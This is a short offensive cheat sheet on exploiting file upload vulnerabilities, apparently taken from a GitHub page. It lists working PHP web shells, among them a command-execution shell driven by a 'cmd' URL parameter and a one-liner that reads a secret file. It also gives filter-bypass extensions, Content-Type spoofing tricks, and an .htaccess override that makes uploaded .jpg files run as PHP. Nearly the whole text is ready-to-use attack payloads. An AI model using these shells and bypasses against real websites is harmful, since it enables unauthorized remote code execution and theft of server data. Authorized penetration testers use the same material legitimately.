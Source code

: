 You should always test for file upload vulnerabilities by trying to upload simple php shells in target websites.

    <?php system('ls') ?>
  
    <?php system('id') ?>
  
    <?php system($_GET['cmd']); ?>       to get the file http://site.com/files/avatars/profile.jpg?cmd=ls

    <?php echo file_get_contents('/home/tony/secret'); ?>


## Via Common php file extensions:
1. .php
2. .php3
3. .php4
4. .php5
5. .php6
6. .phtml
7. .png.php
8. .jpg.php
9. .jpeg.php


for shell.php above add ?cmd=<command-e.g whoami> in the path where the file is uploaded eg /images/safeImage.php?cmd=whoami

## via Content-Type Header Tricks (For Upload Bypass)
image/jpeg	Upload shell.php but rename it shell.jpg and set this as Content-Type. Some apps only check the Content-Type.

application/x-php	Old trick if server-side allows this — rare now.

application/octet-stream	Generic binary stream. Sometimes used to bypass filters that expect image/*.

text/plain	Might bypass if the app only checks for image MIME types.

multipart/form-data; boundary=xyz	Used to send raw POST data for file upload, manipulating boundaries and headers.

text/html	Sometimes used to trick filters, especially in combo with file extension manipulation.

image/png + fake header	Use a real image header + PHP code.


## Via .htaccess:
filename=".htaccess"    OR    ".htaccess%00.jpg"

      AddType application/x-httpd-php .jpg         ---->This will process any jpg file uploaded as php: Also make sure to set Content-Type: application/x-php when uploding the jpg

      AddType text/html .jpg                       ---->This will process any jpg file uploaded as html

